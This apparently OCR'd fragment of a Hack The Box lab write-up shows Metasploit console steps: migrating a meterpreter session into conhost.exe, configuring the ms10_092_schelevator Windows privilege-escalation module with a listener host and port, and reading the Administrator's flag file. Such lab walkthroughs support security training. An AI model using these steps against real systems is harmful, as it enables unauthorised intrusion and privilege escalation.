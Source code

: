 ```
 2076  456   taskhost.ex  x64   2        WINLPE-2K8\htb-st  C:\Windows\System3
             e                           udent              2\taskhost.exe
 2176  620   WmiPrvSE.ex
             e
 2344  2740  conhost.exe  x64   2        WINLPE-2K8\htb-st  C:\Windows\System3
                                         udent              2\conhost.exe

 
meterpreter > migrate 2344

[*] Migrating from 1916 to 2344...
[*] Migration completed successfully.


meterpreter > background

[*] Backgrounding session 1...
```

3) Setting Privilege Escalation Module Options

```
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1
msf6 exploit(windows/local/ms10_092_schelevator) > set lhost tun0
msf6 exploit(windows/local/ms10_092_schelevator) > set lport 4443

exploit

C:\Windows\system32>type c:\Users\Administrator\Desktop\flag.txt
type c:\Users\Administrator\Desktop\flag.txt
L3gacy_st1ill_pr3valent!
